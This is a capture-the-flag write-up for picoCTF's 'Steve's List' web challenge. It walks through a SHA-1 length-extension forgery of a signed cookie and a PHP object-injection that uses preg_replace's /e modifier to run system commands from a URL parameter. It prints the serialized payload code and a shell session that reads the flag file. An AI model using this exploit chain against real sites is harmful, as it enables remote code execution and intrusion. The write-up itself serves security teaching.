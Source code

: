 Challenge Name - CTF Name
===

###Problem: 

Section Chief Steve was super proud of the website he was writing, but he's pretty new to programming. When Daedalus Corp caught wind of this, they hacked [his site](http://steveslist.picoctf.com/). Steve still has an [old backup](https://picoctf.com/problem-static/web/steves-list/handout.zip), but they changed the secrets! They sent us a cryptic message saying they bet we couldn't read /home/daedalus/flag.txt. Can you go get it for us? 

###Analysis: 

A quick look through the source code of the website shows that the `custom_settings` cookie is parsed into an array of strings, which are then deserialized as PHP objects. If we can modify this cookie, we may be able to inject a PHP object:

```php
    $settings_array = explode("\n", $custom_settings);
    $custom_settings = array();
    for ($i = 0; $i < count($settings_array); $i++) {
      $setting = $settings_array[$i];
      $setting = unserialize($setting);
      $custom_settings[] = $setting;
    }
```
 
Unfortunately, the cookie is signed by the server using a SHA-1 hash of a secret value + the cookie. If the signature doesn't match, the server won't deserialize our object:

```php
    $hash = sha1(AUTH_SECRET . $custom_settings);
    if ($hash !== $_COOKIE['custom_settings_hash']) {
      die("Why would you hack Section Chief Steve's site? :(");
    }
```

Fortunately, the way the signature is calculated isn't secure. Using the cookie and signature pair that the server gives us, we can use a length-extension attack to make a new cookie with added data, and a valid signature for it, without knowing the secret. [HashPump](https://github.com/bwall/HashPump) is a good open-source program for doing this.

Now that we can inject PHP objects, the next step is to figure out a way to use this for our advantage. Unlike Python's pickle module, PHP's serialize won't just let us execute arbitrary code as-is. We'll have to exploit an existing class on the website by creating an instance which will do somethign dangerous. The Post class (in includes/classes.php) seems like a good target, because it implements the magic `__destruct` method which will be executed automatically when the object is destroyed:

```php
    function __destruct() {
      // debugging stuff
      $s = "<!-- POST " . htmlspecialchars($this->title);
      $text = htmlspecialchars($this->text);
      foreach ($this->filters as $filter)
        $text = $filter->filter($text);
      $s = $s . ": " . $text;
      $s = $s . " -->";
      echo $s;
    }
```

At first there's no obvious way to use this function to our advantage, but it turns out the `filter` function uses `preg_replace`, which will execute arbitrary PHP for us if the 'e' modifier is set (WTF PHP?).


###Solution: 

Construct a Post object that will run commands for us:

```php
$filters = array(new Filter('/.*/e', 'system($_GET["cmd"])'));
$post = new Post('', '', $filters);
echo bin2hex(serialize($post));
```

Use HashPump to append this value (seperated by a newline) to our cookie, with a valid signature.

Now we can run arbitrary system commands via the cmd parameter. shell.py uses this to present a rudimentary shell.

After a bit of searching the flag is easily found:

```
[joseph@jcmbp steves-list]$ python shell.py 
$ ls /home
daedalus
ubuntu
$ ls /home/daedalus
flag.txt
$ cat /home/daedalus/flag.txt
D43d4lu5_w45_h3r3_w1th_s3rialization_chief_steve
```
